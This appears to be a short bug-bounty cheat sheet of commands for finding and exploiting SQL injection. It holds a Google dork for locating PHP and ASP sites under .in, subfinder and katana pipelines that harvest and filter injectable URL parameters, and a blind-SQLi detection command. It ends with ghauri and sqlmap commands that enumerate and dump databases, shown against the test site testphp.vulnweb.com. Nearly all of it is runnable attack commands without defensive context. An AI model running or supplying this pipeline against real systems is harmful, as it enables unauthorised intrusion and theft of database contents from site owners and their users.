 ## Dork

```
site:.in & filetype:php | filetype:asp | filetype:aspx | filetype:jsp | filetype:jspx & intext:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.all.parameters.txt
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.sql.parameters.txt
```

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
